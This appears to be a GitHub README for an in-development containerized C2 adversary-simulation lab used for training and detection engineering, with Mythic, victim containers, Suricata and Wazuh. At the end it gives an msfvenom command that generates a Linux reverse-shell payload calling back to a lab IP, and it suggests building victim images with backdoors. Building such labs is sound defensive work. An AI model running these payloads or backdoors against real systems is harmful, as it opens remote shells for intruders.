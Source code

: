 ## Cyborg C2: A Realistic, Containerized Adversary Simulation Framework   [ In development ]

### 🧠 Concepts
Build a containerized, modular Command & Control (C2) simulation framework that replicates real-world adversary behavior, inspired by tools like Cobalt Strike, Mythic, and Sliver, but built for training, detection engineering, and research, not real attacks.

### 🞋 Goal
A C2 server (attacker-controlled)
One or more victim containers (simulated endpoints)
A Suricata container (monitoring/sniffing traffic)
A Wazuh agent or manager (for SIEM + alerting)

### 🔁 Data Flow Summary:
- Kali VM (in VirtualBox) is the main attacker, issuing commands or payloads.
- The Docker C2 (e.g., Mythic or a custom Flask-based C2) manages communications with deployed payloads.
- Multiple Attack Containers simulate malware stages (e.g., phishing, privilege escalation).
- Defender Containers (IDS, loggers) inspect traffic, generate alerts, and provide telemetry.

### Workflow 
```
┌────────────┐
│  Kali VM   │  ← attacker
└────┬───────┘
     │
     ▼
┌────────────┐
│  C2 Docker │  ← attacker infra (Flask/Mythic listener)
└────┬───────┘
     │
     ▼
┌────────────┐
│ Victim Box │  ← vulnerable machine (e.g., DVWA container)
│ + Suricata │  ← monitors traffic
└────┬───────┘
     │
     ▼
┌────────────┐
│ Wazuh/ELK  │  ← parses + visualizes Suricata logs
└────────────┘

```

### How are IP's are assigned 
```
1. Create the netwrok :
docker network create \
  --subnet=192.168.100.0/24 \
  --gateway=192.168.100.1 \
  cyberlab_net

📌 When you run the contianers attach them like this:
docker run --rm -it \
  --network=cyberlab_net \
  --ip=192.168.100.10 \
  --name=c2_server my-c2-image

2. In Virtual Box Kali VM: Set up host-only adapter in adapter-2
   Go to Kali VM Settings > Network > Adapter 2
          * Enable Host-Only Adapter
          * Assign adapter to vboxnet0 or your custom host-only adapter
          * Inside the Kali-Linux machine:
               sudo ip addr add 192.168.100.50/24 dev eth1
               sudo ip link set dev eth1 up
```
---

## Recommended Docker Images

```
🕵️‍♂️ 1. C2 Server (Command & Control)
          Mythic C2
          Docker image : its-a-feature/mythic
          Notes : Best for full-featured real-world C2
🎯 2. Victim Machine(s):
          👉 You can also make your own Dockerfile with backdoors or open ports
          [Upload in the Github Folder]
🧅 3. Suricata IDS:
📊 4. Wazuh SIEM Stack:
          ✅ Recommended: Use their official docker-compose repo for
                          a full deployment (Wazuh + ELK).
```


payload creation :
 msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.10 LPORT=4444 -f elf > shell.elf
 chmod +x shell.elf 

msfconsole 

